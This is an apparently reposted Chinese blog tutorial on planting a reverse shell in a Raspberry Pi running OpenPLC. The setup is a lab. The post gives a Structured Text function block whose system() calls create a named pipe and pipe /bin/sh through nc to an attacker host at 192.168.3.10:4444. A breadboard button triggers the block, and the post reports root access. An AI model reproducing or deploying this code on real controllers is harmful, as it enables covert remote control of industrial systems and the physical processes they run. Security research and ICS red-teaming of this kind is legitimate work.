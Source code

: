 > 原文链接: https://www.anquanke.com//post/id/236177 


# 用梯形图反弹一个PLC的shell


                                阅读量   
                                **212670**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t019ec0be67f53f2ec3.jpg)](https://p2.ssl.qhimg.com/t019ec0be67f53f2ec3.jpg)



这次实验的目标是通过梯形图的编程，对外反弹一个PLC底层OS的shell连接外部Kali机器（也可以是VPS上Kali），而这次采用外部面包板上按钮来做触发。这次PLC仍然采用树莓派上运行OpenPLC来制作。



## 1、建立实验环境

这次已经准备好以下几项设备：

树莓派（硬件PLC 运行OpenPLC Runtime），IP：192.168.3.14

Window7虚拟机（运行OpenPLC编辑环境）， IP：192.168.3.3

Kali攻击机（渗透测试），IP：192.168.3.10

外围电路：面包板，LED灯，按钮和电线



## 2、编写一个梯形图和封装一个功能块

首先，我们打开OpenPLC编辑器，新建一个项目后，添加一个自定义功能块：

[![](https://p2.ssl.qhimg.com/t01b3d2ac2685d9d7cf.png)](https://p2.ssl.qhimg.com/t01b3d2ac2685d9d7cf.png)

输入一个功能块的名字，这里为了明显，名字选择rsh_exec，同时编程语言选择ST（结构化语言“类似于Pascal”）

[![](https://p1.ssl.qhimg.com/t01fcbdc4e60288347e.png)](https://p1.ssl.qhimg.com/t01fcbdc4e60288347e.png)

定义了功能块的输入和输出，同时写入一段反弹shell的ST的程序段

[![](https://p5.ssl.qhimg.com/t010a2f5fbc41e1fb4a.png)](https://p5.ssl.qhimg.com/t010a2f5fbc41e1fb4a.png)

在ST编辑环境中输入以下这段程序：

IF (exe = TRUE) THEN

`{`system(“mknod /tmp/pipe p”);`}`

`{`system(“/bin/sh 0&lt;/tmp/pipe | nc 192.168.3.10 4444 1&gt;/tmp/pipe”);`}`

done := TRUE;

return;

END_IF;

done := FALSE;

return;



## 3、在用户逻辑中调用这个功能块：

[![](https://p3.ssl.qhimg.com/t0167720e89b4077224.png)](https://p3.ssl.qhimg.com/t0167720e89b4077224.png)

测试后，运行树莓派上OpenPLC的这段成程序，按下按钮后会反弹一个树莓派 Pi OS的shell给外部Kali机器，同时会显示ID和hostname，并且是root权限。

[![](https://p4.ssl.qhimg.com/t01381c44e86455c556.png)](https://p4.ssl.qhimg.com/t01381c44e86455c556.png)

注释：不是全部PLC都支持这种OS层的shell反弹，但是可以通过梯形图的组态，制作成基于所有PLC的自定义的功能码的shell反弹程序，如果有工控用户shell反弹防护技术和方法感兴趣可以联系工业安全红队IRTeam。
